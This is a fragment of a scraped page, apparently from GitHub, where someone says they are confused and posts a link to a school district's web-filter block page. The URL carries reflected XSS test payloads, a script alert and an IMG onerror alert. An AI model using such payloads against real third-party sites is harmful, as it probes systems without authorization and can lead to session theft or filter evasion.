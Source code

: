 Hopefully i can figure this out
I am so confused 😔
[http://cf03.canyonsdistrict.org/cgi-bin/blockpage/blockpage.cgi?URL=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E&CAT=test&ACC=test&WHY=test&MOD=1
](https://ckf03.canyonsdistrict.org/cgi-bin/blockpage/blockpage.cgi?URL=</span><IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>&CAT=test&ACC=test&WHY=test&MOD=1)
